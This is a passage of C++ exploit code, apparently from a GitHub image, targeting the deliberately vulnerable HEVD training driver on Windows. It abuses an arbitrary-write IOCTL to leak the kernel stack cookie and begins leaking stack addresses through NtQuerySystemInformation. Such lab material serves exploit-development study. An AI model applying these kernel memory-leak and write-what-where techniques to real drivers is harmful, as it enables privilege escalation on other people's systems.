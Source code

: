 ```cpp


    hDevice = CreateFileW(DRIVER_NAME,          // drive to open
                          0,                // no access to the drive
                          FILE_SHARE_READ | // share mode
                          FILE_SHARE_WRITE,
                          NULL,             // default security attributes
                          OPEN_EXISTING,    // disposition
                          0,                // file attributes
                          NULL);            // do not copy file attributes

    if (hDevice == INVALID_HANDLE_VALUE)    // cannot open the drive
    {
        printf("[-] Failed opening handle to driver\n");
        return (FALSE);
    }
    printf("[*] Opened driver handle\n");

    ULONGLONG whereBuffer = 0;
    WriteWhatWhereBuffer wwwBuf = { 0 };
    wwwBuf.what = hevdDataSection;
    wwwBuf.where = &whereBuffer;

    printf("[+] Leaking the stack cookie from the .data section\n");
    bResult = DeviceIoControl(hDevice,                       // device to be queried
                              HEVD_IOCTL_ARBITRARY_WRITE, // operation to perform
                              &wwwBuf, sizeof(wwwBuf),                       // no input buffer
                              NULL, 0,            // output buffer
                              &junk,                         // # bytes returned
                              (LPOVERLAPPED)NULL);          // synchronous I/O

    if (!bResult) {
        printf("[-] Failed sending IOCTL\n");
        bResult = FALSE;
        goto _cleanup;
    }

    if (whereBuffer == 0) {
        printf("[-] Failed leaking the stack cookie\n");
        bResult = FALSE;
        goto _cleanup;
    }
    ULONGLONG stackCookie = whereBuffer;
    printf("[*] Stack cookie is: 0x%llx\n", stackCookie);

    /////// Leak stack base


    HMODULE ntdll = GetModuleHandleA("ntdll");
    _NtQuerySystemInformation query = (_NtQuerySystemInformation)GetProcAddress(ntdll, "NtQuerySystemInformation");
    if (query == NULL) {
        printf("[-] GetProcAddress(NtQuerySystemInformation) failed.\n");
        return 1;
    }
    ULONG len = 2000;
    NTSTATUS status = NULL;
    PSYSTEM_EXTENDED_PROCESS_INFORMATION pProcessInfo = NULL;
    do {
        len *= 2;
        pProcessInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)GlobalAlloc(GMEM_ZEROINIT, len);
        status = query(SystemExtendedProcessInformation, pProcessInfo, len, &len);
    } while (status == STATUS_INFO_LENGTH_MISMATCH);
```